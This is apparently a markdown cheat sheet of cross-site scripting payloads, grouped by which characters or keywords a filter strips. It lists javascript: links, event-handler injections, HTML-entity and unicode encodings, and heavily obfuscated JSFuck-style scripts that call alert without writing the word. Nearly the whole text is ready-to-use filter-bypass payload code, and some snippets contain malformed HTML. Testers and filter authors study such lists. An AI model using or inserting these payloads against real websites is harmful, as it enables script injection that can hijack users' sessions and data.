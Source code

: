 ### 1.If you cannot escape from the attribute (" is being encoded or deleted)

Try to use this payloads :
```
1) <a href="javascript:alert(1)">Click</a>

2) <a href="&#01;javascript:alert(1)">Click</a>

3) <a src="google.com" onclick="alert(1)">Click</a>
```
Or try to replace " with \u0022, > with \u003e and < with \u003c. So the payload will be:
```
4) \u0022\u003e\u003cimg src=x onerror=alert(1)\u003e\u003cx y=\u0022
```

### 2.If you can escape from the attribute but not from the tag (> is encoded or deleted)

Try to event handlers :
```
1) <input   value"XXXXXXX"   onclick=alert(1)  >Click</input>

2) <input  type:"text" value="XSS"  accesskey="x" onclick="alert(1)" >

3) <img src=x  onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">

4) </div><a  src="google.com"  href="javaSCRIPT&colon;alert(/xss/)">XSS</a>

5) <a  href=https://google.com onclick=alert(document.location.hash.substring(1))#{saasasasas}>Click</a>
```
or use encodes:
```
%3cscript%3e
%253cscript%253e
&lt;script&gt;

%u003Csvg onload=alert(1)>
%u3008svg onload=alert(2)> 
%uFF1Csvg onload=alert(3)>
```
### 3.If alert is encoded or deleted

Try to use this payloads :
```
1) <script>$='',_=!$+$,$$=!_+$,$_=$+{},_$=_[$++],__=_[_$$=$],_$_=++_$$+$,$$$=$_[_$$+_$_],_[$$$+=$_[$]+(_.$$+$_)[$]+$$[_$_]+_$+__+_[_$$]+$$$+_$+$_[$]+__][$$$]($$[$]+$$[_$$]+_[_$_]+__+_$+"($)")()</script>

2) <script>[[,$,_,$$,__,$_,_$,$$$,$__,,___]=[![]+[]+!![]][+[]]+[][[]]],$$_=[][$+$_],[,,,$_$,,,_$$,,,,,__$,_$_]=[...$$_+[]],$_$+_$$+___+$$+$_+_$+$$$+$_$+$_+_$$+_$$$_[$_$+_$$+___+$$+$_+_$+$$$+$_$+$_+_$$+_$]($+_+__+_$+$_+__$+[+!!$]+_$_)()</script>

3) <script>
   (
   [
   ,
   O
   ,
   B
   ,
   J
   ,
   E
   ,
   C
   ,
   ,
   ]
   =
   [
   ]
   +
   {
   }
   ,
   [
   T
   ,
   R
   ,
   U
   ,
   E
   ,
   F
   ,
   A
   ,
   L
   ,
   S
   ,
   ,
   ,
   N
   ]
   =
   [
   !
   !
   O
   ]
   +
   !
   O
   +
   B
   .
   E
   )
   [
   X
   =
   C
   +
   O
   +
   N
   +
   S
   +
   T
   +
   R
   +
   U
   +
   C
   +
   T
   +
   O
   +
   R
   ]
   [
   X
   ]
   (
   A
   +
   L
   +
   E
   +
   R
   +
   T
   +
   `
   (
   1
   )
   `
   )
   (
   )
   </script>
   
4) <html>
   <body>
   <head>
   <meta charset="utf-8">   
   </head> 
   <script>
   ᐁ='',ᐃ=!ᐁ+ᐁ,ᐅ=!ᐃ+ᐁ
   ᐊ=ᐁ+{},ᐄ=ᐃ[ᐁ++],ᐆ=
   ᐃ[ᐋ=ᐁ],ᐒ=++ᐋ+ᐁ,ᐗ
   =ᐊ[ᐋ+ᐒ],ᐃ[ᐗ+=ᐊ[ᐁ]
   +(ᐃ.ᐅ+ᐊ)[ᐁ]+ᐅ[ᐒ]+ᐄ
   +ᐆ+ᐃ[ᐋ]+ᐗ+ᐄ+ᐊ[ᐁ]
   +ᐆ][ᐗ](ᐅ[ᐁ]+ᐅ[ᐋ]+ᐃ
   [ᐒ]+ᐆ+ᐄ+"`ᐁᐃ`")()
   </script>
   </html>
   </body>

5) <script>prompt(1)</script>

```

### 4.If space is encoded or deleted
```
use tab url encode : %09
<input%09value"XXXXXXX"%09onclick=alert(1)>Click</input>
```

### 5.If () is encoded or deleted
```
<script>alert`1`</script>
```

### 5.If <script> is encoded or deleted try other tags like:
```
SVG, img, iframe 
```
